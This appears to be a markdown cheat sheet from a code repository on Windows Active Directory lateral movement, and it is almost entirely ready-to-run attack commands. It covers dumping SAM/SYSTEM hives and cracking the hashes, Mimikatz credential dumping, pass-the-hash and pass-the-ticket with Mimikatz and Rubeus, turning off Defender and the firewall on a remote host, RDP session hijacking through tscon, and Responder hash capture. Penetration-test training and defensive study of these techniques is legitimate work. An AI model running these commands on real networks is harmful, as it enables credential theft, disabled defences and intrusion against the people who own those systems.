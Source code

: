 # Lateral Movement

## Using PowerView

> Don't forget to import the script bypassing powershell execution policy

To test if you have an admin access on the current machine:

 ```powershell
 Test-AdminAccess -Verbose
 ```

To see what srevers you have access to:
 
 
 ```powershell
 Find-DomainUserLocation
 ```

 ```powershell
 Invoke-Command -ComputerName dc -ScriptBlock{whoami /groups; hostname}
 ```
  Using PowerShell Remoting
  
  ```powershell
  Enter-PSSession -ComputerName dc
  ```
  
  ## After Getting Local Admin Access...
  
 
 ### Dumping SAM\SYSTEM files for offline cracking:
 
  > C:\Windows\System32\config\SAM


 > C:\Windows\System32\config\SYSTEM

Copying the files to the current directory:

 ```batch
 reg save HKLM\sam sam
 
 reg save HKLM\system system
 ```
 
 On Kali Linux use the `samdump2` tool:
 
 ```bash
 samdump2 system sam
 ```
 
 Take the hashes and crack them with hashcat:
 
 ```bash
 hashcat -D 2 -m 1000 hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule
 ```
 
### SAM and LSA w/ mimikatz
 
 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords' "lsadump::sam" "exit"'
  ```
Copy the NTLM of the users 😈
 
### Pass the Hash Attack w/ mimikatz


 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"sekurlsa::pth /user:student2 /domain:marvel /ntlm:<NTLM YOU COPIED> /run:powershell.exe"'
  ```
  
Create a session variable and disable defences:
  
  ```powershell
  
  $sess = New-PSSession -ComputerName FILESHARE
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealTimeMonitoring $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -session $sess
  
  ``` 
  
  
 ### Pass the Ticket Attack w/ mimikatz
 
 Export all ticket to the current directory
 
 ```powershell 
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 invoke-mimikatz -command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'

 invoke-mimikatz -command '"Mimikatz::debug" "kerberos::ptt <TICKET FILE NAME>"  "exit"'
 
  ```
  
  Check cached tickets: 
  
  `klist`
  
  ### Pass the Ticket Attack w/ Rubeus
 
 List all the tickets:
 
  ```powershell 
 .\Rubeus.exe klist
 ```
 
 Get more information about the tickets:
 
 ```powershell
 .\Rubeus.exe triage
 ```
 
 Dump the tickets:
 
```powershell
 .\Rubeus.exe dump
```

```powershell
 .\Rubeus.exe ptt /ticket:<BASE64 TICKET>
```

### Session Hijacking

Query users (to see who is disconnected)

```powershell
query user
```

```powershell
sc create sesshijack bipath="cmd.exe /k tscon <ID> /dest::rdp-tcp#<ID>"

net start sesshijack
```

### SMB Relay Attack

Using responder we can do a MITM attack to get user hashes via SMB Relay.

```bash
responder -I eth0 -wdv
```

Crack the hashes

```bash
hashcat -m 5600 hashes.txt rockyou.txt
```

